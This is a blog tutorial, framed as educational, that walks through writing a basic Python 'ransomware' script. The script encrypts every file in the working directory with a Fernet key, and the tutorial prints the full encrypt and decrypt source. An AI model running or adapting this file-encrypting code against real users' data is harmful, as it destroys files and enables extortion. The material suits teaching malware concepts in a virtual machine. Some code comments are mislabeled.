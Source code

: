 <!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>Introduction</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><em>For educational purposes only</em></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This article showcases a simple python ransomware one can create in order to educate on the concepts of malware. It consists of utilizing the following python modules:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>os <a href="https://docs.python.org/3/library/os.html" data-type="URL" data-id="https://docs.python.org/3/library/os.html" target="_blank" rel="noreferrer noopener">https://docs.python.org/3/library/os.html</a></li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>cryptography</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Fernet <a href="https://cryptography.io/en/latest/fernet/" data-type="URL" data-id="https://cryptography.io/en/latest/fernet/" target="_blank" rel="noreferrer noopener">https://cryptography.io/en/latest/fernet/</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:paragraph -->
<p>The program is conducted in the Linux environment and it is advisable to test this program in a virtual machine.</p>
<!-- /wp:paragraph -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"pale-cyan-blue"} -->
<p class="has-text-align-center has-pale-cyan-blue-background-color has-background"><strong>Part I</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step 1</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>First let's create some files to be encrypted for this program.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4016,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-14.png?w=1024" alt="" class="wp-image-4016"/><figcaption class="wp-element-caption">3 text files as an example.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>2</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's start writing out script.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>This part of the program finds actual files in the directory and adds them to a list.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4018,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-15.png?w=1024" alt="" class="wp-image-4018"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>os.listdir() function </em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4021,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-17.png?w=801" alt="" class="wp-image-4021"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4019,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-16.png?w=802" alt="" class="wp-image-4019"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>3</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Import the key to encrypt the files.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4025,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-19.png?w=727" alt="" class="wp-image-4025"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4023,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-18.png?w=718" alt="" class="wp-image-4023"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Generate the encryption key.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4027,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-20.png?w=1024" alt="" class="wp-image-4027"/><figcaption class="wp-element-caption"><em>**Remember to delete the print(key) once done testing.**</em></figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":4029,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-21.png?w=818" alt="" class="wp-image-4029"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>4</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Save the generated key in a file and add the key file to not be encrypted in the program.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4030,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-22.png?w=1024" alt="" class="wp-image-4030"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Test the newly added lines</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4031,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-23.png?w=1024" alt="" class="wp-image-4031"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>5</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's add the encryption code.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4035,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-25.png?w=1024" alt="" class="wp-image-4035"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>Fernet encryption function.</em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4038,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-26.png?w=686" alt="" class="wp-image-4038"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Files are encrypted.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4033,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-24.png?w=1024" alt="" class="wp-image-4033"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>The full encryption code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:syntaxhighlighter/code {"language":"python"} -->
<pre class="wp-block-syntaxhighlighter-code">#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Locate files in the directory

files = []

for file in os.listdir():
        if file == 'encrypt.py'or file == 'encrypt.key':   # Not to decrypt the actual program
                continue
        if os.path.isfile(file):                           # Append any text files to the list
                files.append(file)

print(files)

key = Fernet.generate_key()

with open("encrypt.key","wb") as encryptkey:               # Make a file with write permissions
        encryptkey.write(key)                              # Write the encrypt key to the file

for file in files:
        with open(file,"rb") as contents:
                targets = contents.read()                 # Read the files
        targets_encrypted = Fernet(key).encrypt(targets)  # Encrypts all the files
        with open(file,"wb") as contents:                 # Write the files
                contents.write(targets_encrypted)         # Write the encrypted data to the files
</pre>
<!-- /wp:syntaxhighlighter/code -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center","backgroundColor":"pale-cyan-blue"} -->
<p class="has-text-align-center has-pale-cyan-blue-background-color has-background"><strong>Part II</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Let's create our decrypt program which is similar to our encrypt program.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step 1</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Copy the encrypt program to a new file calldecrypt.py.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4040,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-27.png?w=1024" alt="" class="wp-image-4040"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"fontSize":"small"} -->
<p class="has-small-font-size"><strong>Step </strong>2</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Edit the file with the following:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li>Remove the generate key function</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Save the encryption key to a new variable</li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Edit the Fernet function to decrypt </li>
<!-- /wp:list-item -->

<!-- wp:list-item -->
<li>Change the write function to the decrypted content</li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4046,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-30.png?w=1024" alt="" class="wp-image-4046"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><em>Fernet decryption function.</em></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4050,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-32.png?w=699" alt="" class="wp-image-4050"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph {"backgroundColor":"vivid-red"} -->
<p class="has-vivid-red-background-color has-background"><strong><em>**Before running the decrypt program , remember to add decrypt.py file in the encrypt.py file list**</em></strong></p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4045,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-29.png?w=1024" alt="" class="wp-image-4045"/></figure>
<!-- /wp:image -->

<!-- wp:separator -->
<hr class="wp-block-separator has-alpha-channel-opacity"/>
<!-- /wp:separator -->

<!-- wp:paragraph {"align":"center"} -->
<p class="has-text-align-center"><strong>The full decryption code</strong></p>
<!-- /wp:paragraph -->

<!-- wp:syntaxhighlighter/code {"language":"python"} -->
<pre class="wp-block-syntaxhighlighter-code">#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# Locate files in the directory

files = []

for file in os.listdir():
        if file == 'encrypt.py'or file == 'encrypt.key' or file =='decrypt.py':   # Not to decrypt the actual program
                continue
        if os.path.isfile(file):                           # Append any text files to the list
                files.append(file)

print(files)

with open("encrypt.key","rb") as key:                           # Add the key to a variable secretkey
        secretkey = key.read()

for file in files:
        with open(file,"rb") as contents:
                targets = contents.read()                       # Read the files
        targets_decrypted = Fernet(secretkey).decrypt(targets)  # Encrypts all the files
        with open(file,"wb") as contents:                       # Write the files
                contents.write(targets_decrypted)               # Write the encrypted data to the files</pre>
<!-- /wp:syntaxhighlighter/code -->

<!-- wp:paragraph -->
<p>Files are decrypted.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4047,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-31.png?w=1024" alt="" class="wp-image-4047"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Let's test the entire process again.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4064,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/09/image-33.png?w=1024" alt="" class="wp-image-4064"/></figure>
<!-- /wp:image -->
